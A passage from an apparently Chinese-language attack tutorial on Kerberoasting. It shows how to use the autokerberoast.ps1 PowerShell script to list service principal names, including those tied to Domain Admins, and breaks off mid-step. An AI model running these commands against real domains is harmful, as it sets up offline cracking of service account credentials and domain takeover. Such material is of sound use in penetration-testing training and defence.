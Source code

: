 #### Powershell-2

使用 autokerberoast.ps1([https://github.com/xan7r/kerberoast](https://github.com/xan7r/kerberoast) ) 来实施攻击：

a、查看所有的 SPN 信息

```plain
List-UserSPNs
```

[![](assets/1701606719-4be13952c70202156abc7cfd59734464.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163118-3048d6ae-7e11-1.png)  
b、查看与域管理员关联的 SPN 信息

```plain
List-UserSPNs -GroupName "Domain Admins"
```

[![](assets/1701606719-19dc07c6b2bc0ba13e605d6fdcd78038.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163139-3caf42fc-7e11-1.png)  
c、查看指定域名的 SPN 信息
